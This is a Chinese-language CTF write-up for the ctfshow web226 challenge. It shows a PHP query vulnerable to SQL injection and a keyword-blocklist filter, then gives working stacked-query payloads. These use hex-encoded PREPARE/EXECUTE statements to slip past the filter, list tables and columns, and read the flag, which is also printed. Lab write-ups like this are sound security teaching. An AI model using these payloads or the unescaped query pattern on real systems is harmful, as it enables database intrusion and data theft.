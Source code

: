 

#### web226

```php
查询语句

  //分页查询
  $sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
      
返回逻辑

  //师傅说过滤的越多越好
  if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set|show|\(/i',$username)){
    die(json_encode($ret));
  }
```

这道题把show给waf掉了

这题可以用预处理来打

[[SQL注入\][强网杯 2019]随便注(三种姿势)-CSDN博客](https://blog.csdn.net/solitudi/article/details/107823398?ops_request_misc=%7B%22request%5Fid%22%3A%22160652999219721940215459%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fblog.%22%7D&request_id=160652999219721940215459&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_v2~rank_blog_default-1-107823398.pc_v2_rank_blog_default&utm_term=强网杯&spm=1018.2118.3001.4450)

格式

```
PREPARE name from '[my sql sequece]';   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE name;  //删除预定义SQL语句
```

我们可以先将要执行的语句转换成16进制后，作为预处理的sql语句传入，并执行

payload

```
username=1';PREPARE tables from 0x73686f77207461626c6573;EXECUTE tables;
//show tables

username=1';PREPARE columns from 0x73656c6563742067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f736368656d613d6461746162617365282920616e64207461626c655f6e616d653d2763746673685f6f775f666c6167617327;EXECUTE columns;
//select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='ctfsh_ow_flagas'

username=1';PREPARE flag from 0x73656c65637420666c61676173622066726f6d2063746673685f6f775f666c61676173;EXECUTE flag;
//select flagasb from ctfsh_ow_flagas
//ctfshow{7d0038e7-cede-48cc-b0fb-307177d26890}
```

